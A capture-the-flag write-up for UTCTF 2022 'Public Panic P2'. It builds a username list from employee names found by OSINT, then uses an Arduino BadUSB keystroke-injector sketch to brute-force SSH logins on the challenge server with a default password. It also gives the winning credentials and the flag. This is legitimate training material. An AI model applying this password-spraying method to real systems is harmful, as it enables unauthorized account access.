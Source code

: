 # UTCTF 2022 Public Panic P2(Category: Misc)
The challenge is the following,

![Figure 1](img/challenge.png) 


We are told that we should use what we found in [Public Panic P1](https://github.com/LambdaMamba/CTFwriteups/tree/main/UTCTF_2022/misc/public_panic) for this challenge. 

In [Public Panic P1](https://github.com/LambdaMamba/CTFwriteups/tree/main/UTCTF_2022/misc/public_panic), we found a picture of the flag on the whiteboard.

![Figure 2](img/flag.png) 

If we look closely, we can also see what seems to be a default password, which is:

`defaultpw5678!` 

![Figure 3](img/defaultpw.png) 



Now our task is to get onto their system using,

`ssh xxx@misc2.utctf.live -p 8622`

Since we have the password, we will need to find an account that uses this default password.

From the previous challenge, I gathered all the following employee information of Sagishi Tech:
- Wade Coldwater (Marketing): https://twitter.com/WadeColdwater
- Debby Uselton (Marketing): https://twitter.com/DebbyUselton
- Claude Castillo (Marketing): https://twitter.com/ClaudeCastill18
- Cliff Shackleford (Marketing): https://twitter.com/CliffShacklefo1
- Sidney Jaggers (Marketing): https://twitter.com/JaggersSidney
- Misty Booker (Marketing): https://twitter.com/MistyBooker99
- Craig Wallace (Chief Information Security Officer): https://twitter.com/CraigWa09526548
- Sherman Kern (CEO): https://twitter.com/kern_sherman
- Neil Cline (Product Manager): https://twitter.com/NeilCline9
- Britt Bryant (CTO): https://twitter.com/BrittBryant18
- Robyn Swanson (Accountant): https://twitter.com/RobynSwanson96



I looked all over their Twitter accounts, but couldn't find any tweets or pictures that could contain hints to their username. I've also tried their Twitter usernames, but that did not work. Therefore, I assumed that their account usernames have to do with their names.

I went to [Active Directory User Naming conventions](https://activedirectorypro.com/active-directory-user-naming-convention/), and saw the following,

![Figure 4](img/namingconvention.png) 

So I assumed that the usernames conventions might be one of the following:

1. Complete first name plus last name
2. Initial of first name and complete last name
3. First three characters of the first name and first three of last name
4. Three random letters and three numbers

I felt that 4 could be ruled out because I couldn't find much information about the random letters and numbers using OSINT for the Sagishi Tech employees.

So I went ahead and constructed a list of the possible usernames for each of the Sagishi Tech members in [usernames.txt](./usernames.txt), which looks like the following:

```
wadecoldwater
wade.coldwater
wade_coldwater
wcoldwater
wadcol

debbyuselton
debby.uselton
debby_uselton
duselton
debuse


claudecastillo
claude.castillo
claude_castillo
ccastillo
clacas


cliffshackleford
cliff.shackleford
cliff_shackleford
cshackleford
clisha


sidneyjaggers
sidney.jaggers
sidney_jaggers
sjaggers
sidjag


mistybooker
misty.booker
misty_booker
mbooker
misboo

craigwallace
craig.wallace
craig_wallace
cwallace
crawal


shermankern
sherman.kern
sherman_kern
skern
sheker


neilcline
neil.cline
neil_cline
ncline
neicli


brittbryant
britt.bryant
britt_bryant
bbryant
bribry


robynswanson
robyn.swanson
robyn_swanson
rswanson
robswa
```

Now, we just need to `ssh xxx@misc2.utctf.live -p 8622` to test all the possible usernames. 
I didn't want to manually ssh all of these usernames, and I wasn't too familiar with tools that automates login attempts on the command line. Luckily, I had a [Arduino BadUSB Keystroke Injector I made some time ago](https://dev.to/lambdamamba/a-badusb-that-is-pretty-useful-making-a-keystroke-injector-in-arduino-that-can-crack-passwords-using-brute-force-3e77) next to me, so I decided to use that.
 
I wrote an Arduino program [brute_ssh.ino](./brute_ssh/brute_ssh.ino), which injects Keystrokes into the command line after turning on the switch. There will be a 5 second delay between each password attempt, and will try the passwords
 `defaultpw5678!`, `defaultpw5678`, and `5678!`. Also, there will be a 2 seconds delay between each username attempt. It will try all 3 passwords for each username in [usernames.txt](./usernames.txt).
A section of [brute_ssh.ino](./brute_ssh/brute_ssh.ino) looks like the following,

```
#include "Keyboard.h"

int switchPin = 9;
int switchstate = 0;

void setup() {
  Keyboard.begin();
  pinMode(switchPin, INPUT);
}

void loop() {
  switchstate = digitalRead(switchPin);
  //Start inputting into the CMD after turning the switch on
  if (switchstate == HIGH){
    Keyboard.println("ssh wadecoldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);

    Keyboard.println("ssh wade.coldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);


    Keyboard.println("ssh wade_coldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);

    Keyboard.println("ssh wcoldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);


    Keyboard.println("ssh wadcol@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);
    ...
```
(If anyone is interested in making a Arduino Keystroke Injector, please check out [my tutorial](https://dev.to/lambdamamba/a-badusb-that-isnt-so-bad-making-a-keystroke-injector-in-arduino-that-automates-gathertown-movements-41jm))

The following shows the sped up demo of the [Brute Force keystroke injector](https://github.com/LambdaMamba/KeystrokeInjection):

![arduinodemo.gif](img/arduinodemo.gif)

The [full video can be found here in my Youtube channel](https://youtu.be/C51PT2RJHn4).


I successfully logged into the server using the following credentials:

- Username: `cshackleford`
- Password: `defaultpw5678!`


And once I logged into the server, I did `ls`, and saw that there was a file named `flag.txt`. The contents were,

![Figure 10](img/shackle.png) 

Therefore, the flag is:

`utflag{conventions_knowledge_for_the_win}`

